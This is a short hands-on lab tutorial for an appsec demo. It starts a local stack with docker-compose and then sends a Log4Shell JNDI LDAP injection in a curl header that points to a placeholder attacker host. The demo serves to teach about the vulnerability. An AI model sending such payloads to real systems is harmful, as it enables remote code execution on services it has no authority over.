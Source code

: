
## Bootstrap your minikube-based Kubernetes cluster

Get the project

`git clone https://github.com/mkol5222/appsec-demo.git`{{execute}}

Bootstrap it.

`cd appsec-demo; docker-compose up -d`{{execute}}

Try to reach app with attempt to inject using Log4Shell vulnerability...

`curl --resolve log4shell.local:80:127.0.0.1 log4shell.local -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`{{execute}}

